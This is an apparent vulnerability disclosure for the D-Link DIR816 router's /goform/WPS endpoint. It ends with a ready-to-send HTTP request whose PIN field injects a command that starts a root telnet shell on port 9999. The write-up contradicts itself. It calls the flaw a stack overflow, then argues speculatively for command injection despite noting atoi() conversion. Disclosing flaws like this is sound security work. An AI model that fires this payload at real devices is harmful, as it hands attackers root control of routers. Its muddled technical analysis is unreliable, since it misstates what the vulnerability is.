

# DLink DIR816 stack overflow vulnerability
## Affected Version
DLink DIR816 1.10CNB05
## Vulnerability Description
In DLink DIR816 routers with firmware version 1.10CNB05, the PIN parameter of route /goform/WPS has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the sub_466CBC function in DLink DIR816 firmware 1.10CNB05. The function sub_466CBC accepts the PIN parameter from a Web request via the variable Var. While the code attempts to convert this input into an integer using atoi(Var) before passing it to the doSystem() function, the preceding operation nvram_bufset(0, "WpsPin", Var); stores the raw, unsanitized string directly into the device's NVRAM. Furthermore, if the doSystem() wrapper or the underlying system utility handling iwpriv improperly processes large inputs or if the Var variable is used in other shell scripts (like the ones triggered by sub_463EE0() or rc commands), it can lead to OS Command Injection. An attacker can craft a PIN value containing shell metacharacters (such as ;, &, or |) to execute arbitrary commands with administrative privileges.


## Poc
```py
POST /goform/WPS HTTP/1.1
Host: 192.168.1.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: curShow=

PINPBCRadio=1&PIN=12345678; /usr/sbin/telnetd -l /bin/sh -p 9999;&tokenid=1936217320
```
